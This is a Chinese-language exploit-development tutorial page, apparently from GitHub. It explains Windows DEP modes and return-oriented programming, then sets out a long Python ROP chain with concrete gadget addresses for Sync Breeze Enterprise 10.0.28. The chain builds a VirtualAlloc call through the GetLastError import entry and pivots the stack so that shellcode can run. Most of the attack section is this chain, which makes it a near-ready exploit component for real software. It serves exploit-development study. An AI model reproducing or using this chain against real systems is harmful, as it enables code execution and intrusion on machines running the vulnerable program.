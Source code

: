 ```yaml
---
layout: default
---
```


  使用 Sync Breeze Enterprise 10.0.28 用于测试对象. 
  由于 Sync Breeze Enterprise 10.0.28 未导入VirtualAlloc, 使用GetLastError地址替换.
 
 ## DEP 简介
#### DEP 总共有4种模式.
- OptIn:           	DEP 只对系统进程和指定进程开启.
- OptOut:        	DEP 对所有进程开启,除非指定了特定进程不开启.
- AlwaysOn :   	DEP 始终开启.
- AlwasysOff : 	DEP 始终关闭.
- win7 和 win10 默认使用 OptIn. 	windows Server 2012 或  Windows Server 2019 默认使用AlwaysOn.
 
#### 为了兼容性问题, 有些情况下可以对进程开启或关闭 DEP
- LdrpCheckNXCompatibility 	用于检查以确定是否应为进程启动DEP支持. (ntdll.dll)
- NtSetInformationProcess 		用于是开启或禁用正在运行的进程的DEP. (ntdll.dll)

#### win10 强制开启指定进程DEP
- 安全中心 -> 打开Windows安全中心 -> 应用和浏览器控制 -> Exploit Protection -> 程序设置 -> 添加程序自定义 -> 数据执行保护(DEP)
- 编译过程中加入 /NXCOMPAT标志 , 在进程运行期间无法禁用DEP. 
- 这意味着在整个过程中无法关闭 DEP, 那么唯一的选择就是规避系统的NX检查.

---

##  Return  Oriented Programming (ROP)
>
 ROP 原理是用程序中己有的代码片段来组成可执行的代码链.
 通过将不同代码片段地址注入到栈中, 使用RET来控制程序流程.
 最终调用 VirtualAlloc,VirtualProtect 等函数改写内存权限执行Shellcode.

```
 假设栈内数据如下的情况下,代码会依次执行. 使用栈来控制RET的跳转.

  ESP 0 -> 0x1013fc06  	# xor eax, eax ; ret ;
  ESP 4 -> 0x101229f2	# inc eax ; ret ;
  ESP 8 -> 0x10114901	# mov  [ecx], eax ; ret ;
```
#### 使用rp++获取Gadgets
```
- https://github.com/0vercl0k/rp
- rp-win-x86.exe -f Test.exe -r 5 > rop.txt  
```

#### 使用VirtualAlloc改变虚拟地址属性
```
 LPVOID WINAPI VirtualAlloc(
   _In_opt_ LPVOID lpAddress,
   _In_     SIZE_T dwSize,
   _In_     DWORD  flAllocationType,
   _In_     DWORD  flProtect
 );
```
- pAddress: 如果指向己分配页面,则可以使用flProtect改变页面属性.
 dwSize: 以页为单位 Shellcode如果小于0x1000字节, dwSize在0x01~0x1000之间即可.
 flAllocationType: 必须设置为MEM_COMMIT (0x00001000).
 flProtect: 必须设置为PAGE_EXECUTE_READWRITE (0x00000040).

#### 调用栈信息
- 将以下栈数据放到溢出EIP之前. 
```
0d2be300 75f5ab90 -> KERNEL32!VirtualAllocStub (kernel32.dll符号表中名字为VirtualAllocStub)
0d2be304 0d2be488 -> Return address (Shellcode on the stack)
0d2be308 0d2be488 -> lpAddress (Shellcode on the stack)
0d2be30c 00000001 -> dwSize
0d2be310 00001000 -> flAllocationType
0d2be314 00000040 -> flProtect
```
#### 需要解决的问题
 得到栈地址 (通过PUSH ESP; POP REGISTER; 来获取)
 得到 VirtualAlloc 地址 (通过IAT表获得)
 得到 Shellcode 地址 (通过计算溢出数据来计算)
 dwSize, flAllocation Type和 flProtect 包含0x00字符. (通过负数运算,自增,自减,取反等方式写入)

#### 参考代码
```
  #-----------调用框架----------
  va = pack('<L', 0x45454545)	# KERNEL32!VirtualAllocStub
  va += pack('<L', 0x46464646)	# Return address (Shellcode on the stack)
  va += pack('<L', 0x47474747)	# lpAddress (Shellcode on the stack)
  va += pack('<L', 0x48484848) 	# dwSize
  va += pack('<L', 0x49494949) 	# flAllocationType
  va += pack('<L', 0x51515151)	# flProtect

  #-----------得到栈地址----------
  eip = pack('<L', 0x10154112)	# push esp ; inc ecx ; adc eax, 0x08468B10 ; pop esi ; ret ; (将ESP地址赋值给ESI)
  rop = pack("<L", 0x41414141)	# offset (栈偏移对齐,根据漏洞情况而定)
  rop += pack('<L', 0x10052048)	# mov eax, esi ; pop esi ; retn 0x0004 ; (将ESP地址赋值给EAX(EAX 操作指令更多))
  rop += pack("<L", 0x41414141)	# alignment pop esi
  
  #-----------得到VA地址 (esp - 20)----------
  rop += pack("<L", 0x10154336)	# pop ebp ; ret ;
  rop += pack("<L", 0x41414141)	# alignment retn 0x0004 (先RET然后ESP+4)
  rop += pack("<L", 0xFFFFFFE0)	# -0x00000020 = 0xFFFFFFE0
  rop += pack("<L", 0x100fcd71)	# add eax, ebp ; dec ecx ; ret ;(eax = esp - 0x20 指向VA栈顶)
  rop += pack("<L", 0x100baecb)	# xchg eax, ecx ; ret ; 
  
  #-----------写入函数地址到 VA (esp - 20)----------
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ; (eax = GetLastError IAT Address)
  rop += pack("<L", 0x10168040)	# GetLastError IAT Address
  rop += pack("<L", 0x1014dc4c)	# mov eax,  [eax] ; ret ; (eax = GetLastError 虚拟地址)		 
  rop += pack("<L", 0x10114901)	# mov [ecx], eax ; retn 0x000C ; (GetLastError 虚拟地址 写入VA栈顶)
  
  #-----------写入返回地址到 VA + 4 (esp - 20)----------
  rop += pack("<L", 0x10152f51)	# mov eax, ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10154336)	#  pop ebp ; ret ;
  rop += pack("<L", 0xFFFFFEB8)	# -0n328 = 0xFFFFFEB8
  rop += pack("<L", 0x1014c168)	# sub eax, ebp ; pop esi ; pop ebp ; pop ebx ; ret ; (shellcode偏移,大小根据情况而定)
  rop += b"A" * 0xC				# alignment 3 pop
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; (VA + 4 = Return address (Shellcode on the stack))
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ;
  
  #-----------写入lpAddress到地址 VA + 8 (esp - 18)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 4 = lpAddress address (Shellcode on the stack))
  
  #-----------写入dwSize到地址 VA + C (esp - 14)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1013fc06)	# xor eax, eax ; ret ;
  rop += pack("<L", 0x101229f2)	# inc eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 8 = dwSize)
  
  #-----------写入flAllocationType到地址 VA + 10 (esp - 10)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ;
  rop += pack("<L", 0xFFFFEFFF)	# -0x00001000 = 0xFFFFEFFF
  rop += pack("<L", 0x1010ccc3)	# neg eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + C = flAllocationType)
  
  #-----------写入flProtect到地址 VA + 14 (esp - C)----------
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ;
  rop += pack("<L", 0x10027201)	# inc ecx ; ret ; 
  rop += pack("<L", 0x1002f729)	# pop eax ; ret ;
  rop += pack("<L", 0xFFFFFFC0)	# 0x00000040 = 0xFFFFFFC0
  rop += pack("<L", 0x1010ccc3)	# neg eax ; ret ;
  rop += pack("<L", 0x10114901)	# mov  [ecx], eax ; retn 0x000C ; (VA + 10 = flProtect)
  
  #-----------调用函数 KERNEL32!VirtualAllocStub----------
  rop += pack("<L", 0x10152f51)	# mov eax, ecx ; ret ;
  rop += b"A" * 0xC				# alignment retn 0x000C
  rop += pack("<L", 0x10154336)	# pop ebp ; ret ;
  rop += pack("<L", 0xFFFFFFEC)	# 0n20 = FFFFFFEC 
  rop += pack("<L", 0x100fcd71)	# add eax, ebp ; dec ecx ; ret ; (还原EAX地址到VA栈顶)
  rop += pack("<L", 0x10158c35)	# xchg eax, esp ; ret ; (将VA栈顶地址赋值给ESP)
```

 [DEP Bypass  参考](https://www.youtube.com/watch?v=phVz8CqEng8)
